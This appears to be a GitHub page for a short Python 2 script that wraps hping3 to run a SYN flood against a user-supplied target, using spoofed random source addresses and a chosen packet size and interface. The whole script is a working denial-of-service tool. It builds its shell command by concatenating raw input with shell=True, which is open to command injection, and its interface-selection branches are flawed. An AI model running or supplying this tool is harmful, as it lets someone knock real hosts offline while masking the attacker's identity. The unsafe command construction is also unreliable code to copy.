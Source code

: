 # practical_security_2

# hping3 python script

YouTube: https://www.youtube.com/watch?v=-DNpohuBftA

import subprocess
import sys

#*********************************************************************************
print"************************CR3ATED BY THE DR3@M T3AM********************************"
print"*************************@simatech Nyasha Simango********************************"
print"************************* @Mtape Kudzai S Kangwende******************************"
print"*************************@zapiro Anesu     Chiodza*******************************"
print"*************************@dutch Tsitsi H Sithole*********************************"
print"*************************@v!nx Vincent F Munhuweyi*******************************"


target=raw_input("Input Target Machine ")
packet=raw_input("Input Packet Size ")
network=raw_input("Input Interface [e] Ethernet , [w] Wireless ")

value=ord(network)
interface=""
if (value==101):
    interface="eth0"
    
elif (value==119):
    interface="wlan0"
    
if (value==69 ):
    interface="eth0"
    
elif (value==87):
    interface="wlan0"

else:
    interface="wlan0"




hping3mod = "hping3 -S -V --flood -d "+packet +" --interface "+interface +" --rand-source "+target  

p = subprocess.Popen(hping3mod, shell=True, stderr=subprocess.PIPE)
while True:
    out = p.stderr.read(1)
    if out == '' and p.poll() != None:
        break
    if out != '':
        sys.stdout.write(out)
        sys.stdout.flush()

